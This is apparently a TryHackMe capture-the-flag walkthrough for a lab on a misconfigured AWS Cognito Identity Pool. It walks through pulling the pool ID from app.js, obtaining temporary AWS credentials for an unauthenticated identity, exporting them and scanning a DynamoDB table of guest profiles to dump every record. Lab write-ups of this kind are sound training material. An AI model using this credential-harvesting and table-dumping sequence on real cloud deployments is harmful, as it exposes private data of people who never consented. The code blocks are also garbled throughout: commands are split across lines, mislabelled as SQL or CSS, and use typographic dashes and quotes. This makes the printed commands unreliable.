








# Complimentary TryHackMe walkthrough

---

**Day 3** challenge of Hacker Holidays focused on a common cloud security issue: an AWS Cognito Identity Pool misconfiguration.



## Step 1: Inspect the application

Right-click the page and selectView Page Source. We can see it shows that the application loads an external JavaScript file:



The important line is:


```xml
<script src="app.js"></script>
```


## Step 2: Review the JavaScript

Append /app.js to the link and open it in your browser. It will reveal several important configuration values:



The main lines are:


```cpp
const
 IDENTITY_POOL_ID = “us-east
-1
:
836
c0949–
292
d
-485b
-b532–
52
d5ca7bb688”; 
const
 AWS_REGION = “us-east
-1
”; 
const
 TABLE_NAME = “complimentary-GuestWellnessProfiles”;
```


From this we learn:

- AWS Region: `us-east-1`
- Cognito Identity Pool ID
- DynamoDB table name

The application uses **unauthenticated Cognito identities**, meaning every visitor automatically receives temporary AWS credentials.

## Step 3: Obtain an Identity ID

Launch AttackBox or your own Kali Linux. Verify that the AWS CLI is installed:


```text
aws --version
```


Use the Cognito Identity Pool ID we discovered in `app.js` to request an Identity ID:


```sql
aws cognito
-
identity
 
get
-
id \
 — 
identity
-
pool
-
id us
-
east
-1
:
836
c0949–
292
d
-485
b
-
b532–
52
d5ca7bb688
```




The output is:


```json
{
    
"IdentityId"
:
    
"us-east-1:4d571309-b0d4-c186-78c9-f619d92c9ddd"
}
```


## Step 4: Obtain temporary AWS credentials

Use the Identity ID from the previous step to retrieve temporary AWS credentials.


```sql
aws cognito
-
identity
 
get
-
credentials
-
for
-
identity
 \
 — 
identity
-
id us
-
east
-1
:
4
d571309
-
b0d4
-
c186–
78
c9
-
f619d92c9ddd
```




The response contains:

- AccessKeyId
- SecretKey
- SessionToken

These temp credentials allow us to authenticate as an unauthenticated Cognito user.

## Step 5: Configure the AWS CLI

Press `q` to quit the pager and return to the shell. Then export the credentials. Since the session token is very long, it's easiest to save the JSON first:


```sql
aws cognito
-
identity
 
get
-
credentials
-
for
-
identity
 \
 — 
identity
-
id us
-
east
-1
:
4
d571309
-
b0d4
-
c186–
78
c9
-
f619d92c9ddd \
 
>
 creds.json
```


Load them into the current shell using jq. To check if you have jq:


```text
jq --version
```

```javascript
export
 
AWS_ACCESS_KEY_ID
=$(jq -r ‘.
Credentials
.
AccessKeyId
’ creds.
json
)
export
 
AWS_SECRET_ACCESS_KEY
=$(jq -r ‘.
Credentials
.
SecretKey
’ creds.
json
)
export
 
AWS_SESSION_TOKEN
=$(jq -r ‘.
Credentials
.
SessionToken
’ creds.
json
)
export
 
AWS_DEFAULT_REGION
=us-east-
1
```


## **Step 6: Verify the credentials**

Confirm that the credentials are valid.


```sql
aws sts get-caller-identity
```




This confirms that we successfully assumed the **unauthenticated Cognito role**.

## Step 7: Enumerate DynamoDB

The application normally performs a `GetItem()` request for the current guest only. Instead, we attempt to scan the entire table.


```css
aws dynamodb scan \
 — 
table
-name complimentary-GuestWellnessProfiles
```


The command succeeds and returns every record stored in the DynamoDB table.



The flag is here. To find it you need to search /THM:



If you haven’t read my previous walkthroughs, you can find the solutions for [**Day 1**](https://crystalcascade14.medium.com/the-concierge-knows-too-much-tryhackme-walkthrough-a73a3b65aba6) and [**Day 2**](https://medium.com/@crystalcascade14/room-404-tryhackme-walkthrough-aa32146fafba) below before continuing with Day 3.

